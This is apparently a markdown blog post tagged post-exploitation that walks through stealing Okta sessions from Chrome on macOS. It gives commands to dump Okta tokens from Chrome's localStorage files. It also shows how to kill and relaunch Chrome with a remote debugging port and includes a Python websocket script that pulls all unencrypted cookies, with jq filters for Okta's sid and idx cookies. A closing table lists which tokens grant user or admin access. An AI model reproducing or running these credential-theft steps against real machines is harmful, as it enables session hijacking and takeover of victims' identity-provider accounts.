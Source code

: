 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
tags: ["post-exploitation"]
---
```


# Local Storage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.[^1]

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump.git`
* `npm install levelup leveldown`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are stored in an encrypted SQLite database with the key saved in the keychain.[^2] [^3] Unencrypted cookies can still be fetched by attaching a remote chrome debugger.[^4] [^5] This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-allow-origins="*" --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session --profile-directory=Default`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect using the correct page id to dump the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/<id>", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```
* `python3 rip ripWCMN.py  | jq -r '.[] | select(.url="https://<subdomain>.okta.com/app/UserHome")'`
* `python3 rip ripWCMN.py  | jq -c '.result.cookies[] | select(.name="idx")'`

> CREDIT - Justin Bui & @mangopdf

# Okta

If an admin session is stolen from `{tenant}.okta.com`, the session cookie can be used on `{tenant}-admin.okta.com`.[^6]

| Account | Name | Type | Note |
|---|---|---|---|
| Okta Admin | sid | cookie |  |
| Okta User | okta-token-storage | localStorage | JWT Auth Bearer |
| Okta User | idx | cookie | Reveals more data than bearer token |

### References:
[^1]: https://github.com/rdreher/chromeStorageDump
[^2]: https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
[^3]: https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
[^4]: https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
[^5]: https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e
[^6]: https://www.linkedin.com/pulse/oktas-so-secret-less-secure-api-authentication-method-chaim-sanders/
